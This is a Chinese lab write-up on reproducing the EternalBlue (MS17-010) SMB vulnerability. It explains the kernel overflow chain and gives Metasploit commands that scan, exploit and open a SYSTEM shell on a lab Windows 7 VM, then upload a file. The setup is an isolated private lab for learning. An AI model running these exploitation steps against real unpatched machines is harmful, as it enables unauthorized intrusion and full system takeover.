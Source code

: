 # 永恒之蓝（MS17-010）漏洞复现

## 漏洞概述

- **漏洞编号**：MS17-010
- **漏洞名称**：永恒之蓝(EternalBlue)
- **影响范围**: Microsoft Windows 7/2008 及之前未打补丁的版本
- **漏洞类型**: 远程代码执行
- **危险等级**: 严重

## 漏洞成因

**SMB协议**：全称Server Mwssage Block，是一种网络文件共享协议，让计算机可以访问网络上的文件和打印机。

**内核态**：操作系统核心运行的空间，拥有最高权限。SMB服务的工作部分（srv.sys）驱动运行在**内核态**，也就意味着漏洞执行的代码在内核态运行，可以获得最高权限。

**漏洞成因**：Windows内核中的srv.sys驱动未能正确验证客户端发送的特定事务请求（SMB_COM_TRANSACTION）中声称的数据长度与实际接收的数据长度是否一致，导致缓冲区溢出。
攻击链如下：

- **触发溢出**：攻击者发送一个畸形的SMB数据包，其中谎报了后续数据的长度。srv.sys驱动因缺失验证，根据这个虚假的长度分配了内核缓冲区，从而造成缓冲区溢出。

- **篡改指针**：溢出的数据精准地覆盖了一个内核中的数据包接收函数指针，将其值修改为指向一个固定的系统内部共享内存区域（KI_USER_SHARED_DATA，地址为0xFFDF0000）。

- **写入Shellcode**：内核随后处理下一个正常的数据包时，会误以为这是之前那个畸形请求的后续数据。由于指针已被篡改，内核会将这些数据（其中包含攻击者的Shellcode）直接写入到那个固定的系统共享内存区域，而非原本的安全缓冲区。

- **劫持执行流**：该系统共享内存区域中包含一个重要的系统调用返回地址。攻击者写入的Shellcode会覆盖这个地址。

- **获取权限**：当相关的系统调用完成时，CPU会去读取被覆盖的返回地址，转而执行攻击者预设的Shellcode。由于这一切发生在内核态，Shellcode得以以最高的SYSTEM权限运行，从而为攻击者打开一个系统Shell。
> **一句话概括**： Windows SMBv1 服务器处理特殊的请求时，存在内核态的内存拷贝错误，导致攻击者可以发送的恶意数据包，实现远程代码执行，获取系统最高权限。


## 实验环境搭建

### 虚拟机软件准备
本教程使用 **VMware Workstation** 作为虚拟机软件。
- **下载安装**：请自行搜索下载并安装VMware Workstation 17 Player（免费版）或Pro版。
- **替代方案**：也可使用 VirtualBox（免费开源）。

### 操作系统镜像准备
需要下载两个系统的镜像文件（ISO文件）：
- **攻击机**：Kali Linux 
- **靶机**：Windows 7 SP1 x64 

### 创建虚拟机
**安装Kali**：
    - 在VMware中新建虚拟机，选择“稍后安装操作系统”，客户机操作系统选择“Linux”，版本选择“Debian 10.x 64位”。
    - 分配至少2核CPU、4GB内存、40GB硬盘空间。
    - 加载下载好的Kali Linux镜像，启动虚拟机完成安装。
**安装Win7**：
    - 新建虚拟机，客户机操作系统选择“Windows”，版本选择“Windows 7 x64”。
    - 分配至少2核CPU、2GB内存、40GB硬盘空间。
    - 加载Win7镜像完成安装。**安装完成后，务必关闭系统自动更新和防火墙！**

### 网络配置
将两台虚拟机的网络适配器都设置为 **NAT模式**，确保它们在同一网段且与物理机隔离。

| 角色         | 系统版本         | IP 地址       | 备注                        |
| ------------ | ---------------- | ------------- |---------------------------|
| 攻击机 (Kali) | Kali Linux 2024.1 | 192.168.142.128 | 使用 Metasploit 框架，具备nmap工具 |
| 靶机 (Target) | Windows 7 SP1 x64 | 192.168.142.133 | 原版，未打补丁                   |

### 实验准备

- **网络检查**：确保攻击机与靶机位于同一局域网段（通常使用VMware/NAT模式），并能相互通信。
![img_6.png](img_6.png)

- **靶机设置**：关闭Windows 7靶机的防火墙和自动更新功能，使其处于易受攻击的原始状态。
![img_5.png](img_5.png)![img_4.png](img_4.png)

- **环境验证**：
分别查看攻击机与靶机IP，并互相执行ping命令测试连通性。

![img.png](img.png)![img_1.png](img_1.png)
![img_3.png](img_3.png)![img_2.png](img_2.png)

- **端口扫描**：使用Nmap扫描靶机，探测开放端口，确认445端口（SMB服务）是否开放
![img_7.png](img_7.png)

## 攻击流程
### 攻击准备
在kali攻击机上启动渗透测试框架
'msfconsole'
![img_8.png](img_8.png)
> msfconsole是启动Metasploit框架的核心命令。Metasploit是一个强大的渗透测试平台，里面集成了大量的漏洞利用模块、 payload和辅助工具。msfconsole 就是打开这个工具箱的命令行界面。


搜索永恒之蓝漏洞模块
'search ms17-010'
![img_12.png](img_12.png)
> 红线标出的是五个功能模块，分别是：
> 
> 漏洞利用模块 (exploit/windows/smb/ms17_010_eternalblue)：主攻击向量。直接利用EternalBlue漏洞进行远程代码执行，获取系统初始访问权限。
>
> 权限扩展模块 (exploit/windows/smb/ms17_010_psexec)：备用攻击方案。在已获取有效账号密码的前提下，通过SMB认证模拟管理员身份执行代码。
> 
> 后门利用模块 (auxiliary/admin/smb/ms17_010_command)：后门命令执行器。在目标已被植入特定后门（如DOUBLEPULSAR）后，直接通过该通道执行单条命令。
> 
> 漏洞扫描模块 (auxiliary/scanner/smb/smb_ms17_010)：安全扫描器。用于无损检测目标主机是否存在MS17-010漏洞，为后续攻击提供依据。
> 
> 后门管理模块 (exploit/windows/smb/smb_doublepulsar_rce)：后门植入与利用工具。可向已存在漏洞的系统植入DOUBLEPULSAR后门，或利用现存的后门执行代码。
> 
> 这里我们主要会用到第一个漏洞攻击模块和第四个扫描模块


选择漏洞扫描，收集信息，验证漏洞
'use auxiliary/scanner/smb/smb_ms17_010'
'set rhosts 192.168.142.133'
'run'
![img_10.png](img_10.png)
> use auxiliary/scanner/smb/smb_ms17_010：选择漏洞扫描模块。该模块属于辅助(auxiliary)类别中的扫描器(scanner)，其作用是检测目标SMB服务是否存在MS17-010漏洞，仅作验证，不执行攻击。
> set rhosts 192.168.142.133：设置目标参数。rhosts (Remote Hosts) 参数用于指定要扫描的远程靶机IP地址。
> run：执行扫描。启动当前模块，开始对目标进行漏洞验证。
> 结果显示vulnerable，可以开始下一步攻击

### 发动攻击
切换到攻击模块，设置靶机IP开始攻击
'use exploit/windows/smb/ms17_010_eternalblue'
'set rhosts 192.168.142.133'
'run'
![img_11.png](img_11.png)
win!

### 渗透操作 
接下来获取靶机cmd
'shell'
查看详细网络信息与权限级别，靶机系统信息等
![img_13.png](img_13.png)
![img_17.png](img_17.png)
![img_18.png](img_18.png)

退出shell界面，上传我们提前准备好的文件并验证
'upload /home/kali/Desktop/test c:\\'
'cat c:\\test'
![img_14.png](img_14.png)

打开靶机查看

![img_15.png](img_15.png)
![img_16.png](img_16.png)

成功！

